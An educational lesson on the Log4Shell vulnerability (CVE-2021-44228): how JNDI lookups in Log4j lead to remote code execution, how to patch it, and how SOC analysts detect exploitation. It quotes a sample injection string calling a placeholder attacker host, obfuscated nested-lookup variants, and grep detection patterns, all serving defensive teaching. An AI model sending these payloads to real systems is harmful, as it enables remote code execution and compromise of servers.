






| Topic | Level | Reading Time | Prerequisites |
|---|---|---|---|
| Log4Shell Case Study (CVE-2021-44228) | Intermediate | ~20 min | Vulnerability Assessment and Risk Scoring, Core Log Types and Web Server Logs |

> **The goal of this section:**  
> You'll understand why the Log4Shell vulnerability got the highest possible CVSS score, how a single log line is enough to run code remotely, what the fix and the workarounds are, how the SOC detects exploitation from several sources at once, and how GRC sees the same incident from the angle of risk and decision-making.


## Learning Objectives

By the end of this section, you will be able to:

- State the key facts about **Log4Shell**: identifier, CVSS score, disclosure date, and why it scored the maximum.
- Explain why the exposure was enormous and how it connects back to **asset inventory**.
- Explain the design feature (**JNDI lookup**) and the flaw that turned it into a vulnerability.
- Walk through the six steps of the attack chain, from crafted string to **remote code execution**.
- List the permanent fix, the workarounds, and the lesson about **SBOM**.
- Describe where a SOC analyst looks for evidence: web logs, obfuscated variants, outbound traffic, DNS, endpoint telemetry, and application logs.
- Explain why detection and risk scoring need each other.

## Table of Contents

- [Learning Objectives](#learning-objectives)
- [Log4Shell at a Glance](#log4shell-at-a-glance)
  - [Key Facts](#key-facts)
  - [Why the Score Is the Maximum](#why-the-score-is-the-maximum)
  - [Why the Exposure Was Enormous](#why-the-exposure-was-enormous)
- [Why Log4Shell Happened](#why-log4shell-happened)
  - [The Feature](#the-feature)
  - [The Protocols](#the-protocols)
  - [The Flaw](#the-flaw)
- [How the Attack Works](#how-the-attack-works)
- [Fix and Mitigation](#fix-and-mitigation)
  - [The Permanent Fix](#the-permanent-fix)
  - [Workarounds](#workarounds)
  - [The SBOM Lesson](#the-sbom-lesson)
- [SOC and GRC Perspectives](#soc-and-grc-perspectives)
- [Detecting Log4Shell: Where to Look](#detecting-log4shell-where-to-look)
  - [Proxy, WAF, and Web Server Logs](#proxy-waf-and-web-server-logs)
  - [Obfuscated Variants](#obfuscated-variants)
  - [Outbound Network Traffic From Servers](#outbound-network-traffic-from-servers)
- [Detecting Log4Shell: More Evidence and Tools](#detecting-log4shell-more-evidence-and-tools)
  - [DNS Logs](#dns-logs)
  - [Endpoint Telemetry](#endpoint-telemetry)
  - [Application Logs](#application-logs)
  - [Security Solutions and Writing Rules](#security-solutions-and-writing-rules)
- [A Simple Triage Search](#a-simple-triage-search)
- [Career Path Connections](#career-path-connections)
- [Key Terms Glossary](#key-terms-glossary)
- [Summary](#summary)

## Log4Shell at a Glance

### Key Facts

| Identifier | CVSS Score | Disclosed |
|---|---|---|
| `CVE-2021-44228` | 10.0 | December 2021 |

The vulnerability's common name is **Log4Shell**, and it lives in the **Apache Log4j** library.

### Why the Score Is the Maximum

The vulnerability is **remotely exploitable**, **very easy to carry out**, and able to **fully compromise the system, steal data, or take it down**.

### Why the Exposure Was Enormous

**Log4j** is a very popular logging library in **Java**, built into web apps, cloud services, and even **security tools**. Many organizations **didn't know where Log4j was running in their environment**, which ties directly to the asset inventory topic.



> [!NOTE]
> This is the practical proof of the first section of Vulnerability Assessment and Risk Scoring: you cannot patch what you do not know you have. A library buried inside another product is one of the hardest assets to inventory, which is exactly why Log4Shell hurt so many organizations.

## Why Log4Shell Happened

### The Feature

Log4j had a feature called **JNDI lookup**, which let log messages **fetch data from external servers**.

### The Protocols

**JNDI (Java Naming and Directory Interface)** can talk to services such as **LDAP** and **RMI**.

### The Flaw

Log4j processed **lookups inside the log messages themselves**, and those messages often contain **attacker input**, such as headers or usernames.

**The result:** simply having **a malicious string logged** was enough to trigger the lookup.



> [!IMPORTANT]
> The root cause is a classic input-handling failure: trusted processing applied to untrusted data. The logging library treated attacker-controlled text as instructions instead of plain text, which is the same category of mistake behind the injection attacks covered in the Input Attacks and Injection category.

## How the Attack Works

| # | Step |
|---|---|
| 1 | The attacker sends a **crafted string** in a request, whether in the URL, the User-Agent header, or a form field |
| 2 | The vulnerable server **logs** that input |
| 3 | Log4j sees the `${jndi:...}` pattern and performs the **lookup** |
| 4 | The server **connects outbound** to an LDAP server controlled by the attacker |
| 5 | The attacker's server **returns a reference** to a malicious Java class |
| 6 | The victim **loads and executes** the class, and the attacker gets **remote code execution (RCE)** |

An example payload (with a placeholder address):

```text
${jndi:ldap://attacker.com/a}
```



**The danger came from how little the attacker needed:** no authentication, **one string**, and **one log line**.

> [!WARNING]
> Notice step 4: the vulnerable server itself initiates an outbound connection. A server that normally only answers requests suddenly reaching out to the internet is the most reliable artifact of this attack, and it is the reason outbound traffic monitoring appears twice in the detection sections below.

## Fix and Mitigation

### The Permanent Fix

**Upgrade to Log4j 2.17.1 or later** (Java 8). The older patches (**2.15.0 and 2.16.0**) turned out to be **incomplete**, so always use the latest.

### Workarounds

When updating isn't possible right away:

| Workaround | Detail |
|---|---|
| **Disable message lookups** or **remove the `JndiLookup` class** from the library | Shuts off the vulnerable feature |
| **Block outbound LDAP traffic** from servers at the firewall | Stops step 4 |
| **WAF rules** that block `${jndi:` patterns | **As a temporary layer only** |

### The SBOM Lesson

**The lesson learned:** use a **Software Bill of Materials (SBOM)** to know which applications contain which libraries.



> [!TIP]
> An SBOM is the software-level version of an asset inventory: instead of listing servers, it lists the libraries inside each application. When the next library-level vulnerability appears, the SBOM answers "are we affected, and where?" in minutes instead of weeks.

> [!NOTE]
> Version guidance changes as advisories are updated. Always confirm the fixed version for your Java version against the official Apache Log4j security page rather than relying on a number from a lecture.

## SOC and GRC Perspectives

| Perspective | Core Question |
|---|---|
| **SOC: detection and log artifacts** | What happened, and how do we see it? |
| **GRC: risk and CVSS** | How dangerous is it, and what is the business decision? |

**Both are needed.** Detection without risk context wastes effort, and risk scoring without detection leaves you blind.



## Detecting Log4Shell: Where to Look

**The challenge:** as a SOC analyst, how would you detect the exploitation? Assume the delivery happens through a URL or an HTTP header.

### Proxy, WAF, and Web Server Logs

Look for requests containing `${jndi:` in the **URL**, **User-Agent**, **Referer**, **X-Forwarded-For**, or any other header.

### Obfuscated Variants

Attackers evade simple string matching with **nested lookups**, such as:

```text
${${lower:j}ndi:...}
${${::-j}${::-n}di:...}
```

**Detection rules must handle obfuscation.**

### Outbound Network Traffic From Servers

Unexpected connections to the internet on **LDAP (389)**, **RMI (1099)**, or unusual ports such as **1389**. **Servers rarely start these connections on their own.**

| Evidence Source | What to Look For |
|---|---|
| Web server, proxy, WAF logs | `${jndi:` in the URL or the headers (User-Agent, Referer, X-Forwarded-For) |
| Obfuscated variants | Nested lookups such as `${${lower:j}ndi:...}` |
| Outbound traffic | Outbound connections from the server on 389, 1099, or 1389 |

> [!NOTE]
> The list of headers worth searching includes X-Forwarded-For, which ties back to Core Log Types and Web Server Logs: a header you might otherwise treat as trustworthy metadata is also attacker-controlled input.

## Detecting Log4Shell: More Evidence and Tools

### DNS Logs

Queries to **unfamiliar or newly registered domains**, or to **out-of-band testing services**, from application servers.

### Endpoint Telemetry

The **Java process** spawns unexpected child processes such as `sh`, `bash`, `curl`, `wget`, and `powershell`.

### Application Logs

The malicious string itself shows up in the log file, **along with error messages about failed JNDI lookups**.

### Security Solutions and Writing Rules

Security solutions that analyze and filter URLs: **WAF, proxy, IDS, IPS, NGFW, and SIEM correlation**.

Use **AI** tools to help you write detection rules, **but make sure you understand what each rule actually matches**.



> [!IMPORTANT]
> No single source is enough, and this is the same correlation principle from Network and Authentication Logs. A string in a web log shows an attempt. An outbound connection shows the server was tricked. A child process spawned by Java shows code actually ran. Together they tell you whether the attempt succeeded.

## A Simple Triage Search

A simple example of initial triage on a web server log (illustrative, not a replacement for a real SIEM rule):

```bash
# 1. The plain string
grep -F '${jndi:' /var/log/nginx/access.log

# 2. A looser pattern for nested-lookup obfuscation (expect false positives)
grep -E '\$\{[^}]*(lower|upper|::-)[^}]*\}' /var/log/nginx/access.log
```

> [!WARNING]
> This is a triage aid, not a detection rule. Attackers can nest lookups far deeper than a simple pattern covers, and a string appearing in a log proves only an attempt, not a successful exploit. Always confirm with the outbound-traffic and endpoint evidence above.

## Career Path Connections

| Career Path | How This Topic Applies |
|---|---|
| SOC Analyst | Hunts for the string, obfuscated variants, outbound LDAP, and suspicious Java child processes across several log sources |
| Penetration Tester | Library-level vulnerabilities like this are why authorized assessments check third-party components, not only custom code |
| GRC | Combines the CVSS 10.0 score with asset exposure to drive an emergency patching decision, and uses SBOMs to answer "are we affected" |
| Cloud Security | Cloud workloads and containers embed libraries too, so SBOMs and image scanning are the cloud-native answer |

## Key Terms Glossary

| Term | Definition |
|---|---|
| Log4j | A widely used Apache Java logging library |
| Log4Shell | The common name for CVE-2021-44228 in Log4j |
| JNDI | Java Naming and Directory Interface, a Java API able to talk to services such as LDAP and RMI |
| LDAP | Lightweight Directory Access Protocol, commonly on port 389 |
| RMI | Java Remote Method Invocation, commonly on port 1099 |
| RCE | Remote Code Execution, running attacker-chosen code on a victim system |
| Nested Lookup | A lookup placed inside another lookup, used to obfuscate a malicious string |
| SBOM | Software Bill of Materials, a list of the components and libraries inside software |
| Out-of-Band Testing Service | An external service used to confirm that a target made an outbound request |

## Summary

- **Log4Shell is CVE-2021-44228, CVSS 10.0, disclosed December 2021:** remote, easy, and able to fully compromise a system.
- **The exposure was huge because nobody knew where Log4j ran:** a library built into applications, services, and security tools.
- **A feature became a flaw:** the JNDI lookup was processed inside log messages that contain attacker input.
- **The attack needs one string and one log line:** six steps from the crafted string to RCE.
- **The permanent fix is upgrading to the latest fixed release:** the older patches (2.15.0 and 2.16.0) were incomplete.
- **Workarounds buy time:** disable lookups, block outbound LDAP, and use a WAF as a temporary layer only.
- **An SBOM answers "where is this library"** before the next incident happens.
- **Detection draws on six sources:** web logs, obfuscated variants, outbound traffic, DNS, endpoint, and application logs.
- **SOC and GRC views both matter:** detection without risk context wastes effort, and scoring without detection leaves you blind.

